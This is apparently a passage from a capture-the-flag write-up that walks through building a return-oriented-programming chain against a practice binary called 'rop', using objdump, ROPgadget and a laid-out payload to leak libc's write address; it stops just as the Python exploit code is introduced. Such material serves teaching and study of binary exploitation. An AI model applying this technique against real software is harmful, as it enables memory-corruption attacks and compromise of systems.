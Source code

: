 write offset in PLT table:

```txt
# objdump -d -M intel rop | grep "write@plt"
0000000000400430 <write@plt>:
  400551:	e8 da fe ff ff       	call   400430 <write@plt>
  400576:	e8 b5 fe ff ff       	call   400430 <write@plt>

```

What we want to do here is to load the address of a write function from GOT table to rdi and then print that address by calling the write function.

This is a write function:

```c
ssize_t write(int fd, const void *buf, size_t liczba);
``` 

We got three arguments:
* rdi - fd (file descriptor)
* rsi - address of string to print
* rdx - amount of character to write

Let's look for gadgets:

```txt
# ROPgadget --binary rop | grep -E 'pop rsi|pop rdx' 
0x0000000000400611 : pop rsi ; pop r15 ; ret
```

In the binary there is only rsi gadget so we cant set rdx. However rdx was set to 0x280 before the first write call here:

```nasm
lea     rax, [rbp+buf]  ; load addres of local array to rax
mov     edx, 280h       ; load amount of characters which have to be read to edx
mov     rsi, rax        ; copy adres from rax to rsi
mov     edi, 0          ; set file descriptor (0 means a standard input)
mov     eax, 0          ; clear rax (in rax _read error code will be stored)
call    _read
nop
```

So we only need to load proper values to rdi and rsi.

The first payload will contain:
* 'A'*72 
* address of rdi gadget
* 0x1 (file descriptor for write)
* address of rsi gadget
* write offset in GOT (this will point to the write address in libc)
* 0x0 (rsi gadget contains pop r15 instruction so we have to place some garbage on stack for r15)
* write offset in PLT (this will point to the write call)
* address of a main function (if we rerun the program, the libc address will be changed so we have to jump to start of the main function)

Here is python code for part one:

